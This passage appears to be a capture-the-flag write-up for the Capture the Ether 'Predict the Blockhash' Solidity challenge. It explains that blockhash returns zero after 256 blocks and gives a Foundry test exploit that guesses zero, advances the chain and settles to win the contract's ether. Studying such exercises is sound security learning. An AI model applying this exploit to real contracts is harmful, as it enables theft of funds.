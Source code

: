 ### Exploit

To exploit this contract, it's important to know that `blockhash` only returns the actual block hash for the last 256 blocks due to performance reasons. For any blocks that lie further in the past, `blockhash` will return `0x0000000000000000000000000000000000000000000000000000000000000000`.

Therefore, we can call `lockInGuess` with `hash = 0x0000000000000000000000000000000000000000000000000000000000000000`, wait until the corresponding block lies far enough in the past, and finally call `settle`.

_PredictTheBlockhash.t.sol_

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "forge-std/console.sol";

import "../src/PredictTheBlockhash.sol";

contract PredictTheBlockhashTest is Test {
    PredictTheBlockhash public predictTheBlockhash;

    function setUp() public {
        predictTheBlockhash = (new PredictTheBlockhash){value: 1 ether}();
    }

    function testExploit() public {
        // Set block number
        uint256 blockNumber = block.number;

        // Put your solution here
        predictTheBlockhash.lockInGuess{value: 1 ether}(
            0x0000000000000000000000000000000000000000000000000000000000000000
        );

        vm.roll(blockNumber + 258);
        predictTheBlockhash.settle();

        _checkSolved();
    }

    function _checkSolved() internal {
        assertTrue(predictTheBlockhash.isComplete(), "Challenge Incomplete");
    }

    receive() external payable {}
}
```

## Capture the Ether (RareSkills Repo) - Token Whale
